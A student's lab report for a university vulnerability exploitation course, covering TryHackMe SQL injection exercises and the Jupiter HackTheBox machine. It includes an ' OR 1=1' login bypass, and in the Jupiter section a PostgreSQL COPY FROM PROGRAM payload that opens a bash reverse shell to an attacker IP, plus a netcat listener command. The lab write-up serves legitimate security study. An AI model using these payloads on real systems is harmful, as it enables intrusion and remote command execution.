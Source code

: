 # Lab 02 - Injection

## Scope

This assessment scope focused on two activities:

1. TryHackMe SQL Injection - an assessment where we implement basic SQLi skill in order to progress through a set o level.
2. Jupiter HTB VM - starting from the enumeration information from the previous report, we will try to gain access to the VM using a known vulnerability through SQLi

## Part 1a - TryHackMe

_Observe the resolution ans quizz answers at [TryHackMe Resolution](./TryHackMe_SQLInjection.pdf) pdf file._

### Objectives

The objective of this machine was to explore the types of exploitation and methods of interaction during an SQL Injection attack.

One is expected to have explored:

-   **Types of SQL Injection**: Exploring various types of SQL injection attacks, such as In-Band SQL Injection, Blind SQL Injection and Time-Based Blind SQL Injection.
-   **Tools and Techniques**: Learning about tools like SQLMap and manual techniques to identify and exploit SQL injection vulnerabilities.
-   **Mitigation**: Understanding how to prevent SQL injection by implementing security measures like input validation and parameterized queries.

### Task 5 - In-Band SQL Injection

In-band SQL injection is a type of SQL injection attack where an attacker uses the same communication channel, such as the application's response, to both inject malicious SQL code and retrieve the results of the injected query.

One starts by exploring the response of the service to SQL statements, and an exposed _Error_ message is ideal.

![01](./prints/Screenshot%20at%202023-10-06%2014-16-26.png)

As we can see, the tables have a **different number of columns**, so we will add columns until it matches. Which in this case is three.

![02](./prints/Screenshot%20at%202023-10-06%2014-17-01.png)

<P style="page-break-before: always">

Now that the number or columns is guessed, we can request other information like the database name.

![03](./prints/Screenshot%20at%202023-10-06%2014-17-17.png)

Knowing the database name, we'll view all the available tables within it.

![03](./prints/Screenshot%20at%202023-10-06%2014-17-33.png)

<P style="page-break-before: always">

The `staff_users` table should be visited as information regarding users is always prone to have sensitive information.

![04](./prints/Screenshot%20at%202023-10-06%2014-17-48.png)

Sure enough, it does contain usernames and passwords that we can use to ingress further in the website.

![05](./prints/Screenshot%20at%202023-10-06%2014-18-17.png)

<P style="page-break-before: always">

### Task 6 - Blind SQLi

Blind SQLi is when we get little to no feedback to confirm whether our injected queries were, in fact, successful or not, this is because the error messages have been disabled, but the injection still works regardless.

First let's try to log in with random credentials to see what the response is.

![06](./prints/Screenshot%20at%202023-10-06%2014-21-20.png)

We can observe that the SQL query that is being formed does not sanitize the user input, that is covinient has we can bypass the authentication by forcing the query to always return **True** by inputting ` OR 1=1; --`

![07](./prints/Screenshot%20at%202023-10-06%2014-21-26.png)

### Task 7 - Boolean Based Blind SQLi

Boolean based SQL Injection refers to the response we receive back from our injection attempts which could be a true/false,yes/no, on/off, 1/0 or any response which can only ever have two outcomes.

Since all we know is that the querie will either return `true` or `false`, we must experiment all possible option that result in a true evaluation. Only when one option returns true, can we processed with the next value of the querie.

![08](./prints/Screenshot%20at%202023-10-06%2014-23-44.png)

![09](./prints/Screenshot%20at%202023-10-06%2014-24-46.png)

<P style="page-break-before: always">

Some values we can infer based on the pattern of the already known infrastructure.

![10](./prints/Screenshot%20at%202023-10-06%2014-27-26.png)

![11](./prints/Screenshot%20at%202023-10-06%2014-34-21.png)

<P style="page-break-before: always">

For more realistic values, a brute force tool will be absolutely essential for guessing large amounts of values in short periods of time.

![12](./prints/Screenshot%20at%202023-10-06%2014-42-43.png)

But eventually, we will be able to guess the password.

![13](./prints/Screenshot%20at%202023-10-06%2014-43-18.png)

<P style="page-break-before: always">

### Task 8 - Time Based Blind SQLi

A time-based blind SQL Injection is very similar to the above Boolean based, in that the same requests are sent, but there is no visual indicator of your queries being wrong or right this time. Instead, your indicator of a correct query is based on the time the query takes to complete.

For our first attempt, when guessing the number of columns, we will indicate a _sleeping_ time of 5 seconds. If the response to this query takes this long to be retrieved, we will now we are matching the query parameters.

![14](./prints/Screenshot%20at%202023-10-06%2014-44-30.png)

Knowing this, the procedure will now be the same as the other injection types. We will begin by guessing the database name, followed by searching for a table with sensitive information and hopefully retrieve information that allows us to log in.

![15](./prints/Screenshot%20at%202023-10-06%2014-49-13.png)

![16](./prints/Screenshot%20at%202023-10-06%2015-15-16.png)

<P style="page-break-before: always">

## Part 1b - Jupiter HTB Machine

Starting from the last report (Lab01), we had discovered 3 crucial information about the Jupiter machine:

1. By mapping the ports, we discoverd **port 80** exposed, which lead to the domain **jupiter.htb**
2. By fuzzing for subdomains, we discoverd **`kiosk`** to be a subdomain.
3. `kiosk` takes us to a Grafana dashboard, exposing graphs and various data.

![17](../Lab01/JupiterVM/00-nmap.png)

![18](../Lab01/JupiterVM/01-firefox.png)

![19](../Lab01/JupiterVM/03-fuzz-subdomain.png)

![20](../Lab01/JupiterVM/04-grafana.png)

One thing I always like to do when visiting _hidden_ pages, is proxy and intercept all packets. This pages are hidden for a reason, and maybe is due to laziness when fixing vulnerable services.

![21](./prints/2023-10-10_10-41.png)

<P style="page-break-before: always">

Lets proxy all our traffic through BurpSuit using _Proxy_. We can click on `Forward` to let the page further render until we find some interesting packets. Sure enough we find the request for data to fill the graphs, and interesting enough, there is raw SQL query in them.

![22](./prints/2023-10-10_10-45.png)

<P style="page-break-before: always">

With BurpSuite, we can now them this request to the _Repeater_ were we will be able to manipulate, re-send the request, and observe the responses.

![23](./prints/2023-10-10_10-48.png)

<P style="page-break-before: always">

The obvious thing to do is to manipulate the SQL query and discover if it sanitizes the values given to it. We discover that it does not and the query is intact, as visible in the response, this means that we can pass custom queries to the database.

![24](./prints/2023-10-10_10-56.png)

Searching the community, we discoverd that a payload for [Postgres SQL already exists](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#cve-20199193)! Lets exploit it by passing whatever program we desired.

![25](./prints/2023-10-10_11-00.png)

<P style="page-break-before: always">

In this scenario, for optimal communication, a reverse shell would be an ideal scenario, lets use it. By creating a query payload that forces the server to connect via TCP, we can run _netcat_ in our attacking VM to accept incoming connections.

``` SQL
CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'bash -c \"bash -i 
>& /dev/tcp/<ip>/6969 0>&1\"' 
```

![23](./prints/2023-10-10_11-10.png)

> _Make sure to allow the port 6969 through your firewall if needed._

Run the _netcat_ command in your terminal: `nc -nvlp 6969`

Send the request, and sure enough, the connection is established.

![24](./prints/2023-10-10_11-09.png)

# Author

David José Araújo Ferreira, 93444 - [davidaraujo@ua.pt](mailto:davidaraujo@ua.pt)

Report submitted for the Lab 02 of _Analysis and Vulnerability Exploitation_ course at the University of Aveiro.

